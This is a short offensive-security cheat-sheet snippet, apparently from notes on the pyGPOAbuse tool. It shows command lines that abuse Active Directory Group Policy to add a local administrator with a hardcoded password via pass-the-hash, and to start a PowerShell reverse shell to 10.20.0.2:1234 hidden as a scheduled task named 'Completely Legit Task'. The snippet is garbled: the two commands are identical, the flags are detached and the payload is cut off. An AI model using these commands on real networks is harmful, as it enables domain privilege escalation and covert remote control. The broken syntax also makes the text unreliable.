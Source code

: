 ## pyGPOAbuse https://github.com/Hackndo/pyGPOAbuse

#### 1) Add john user to local administrators group (Password: H4x00r123..)

    ./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

#### 2) Reverse shell

    ./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

-powershell \
-command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\
-taskname "Completely Legit Task" \
-description "Dis is legit, pliz no delete" \
-user
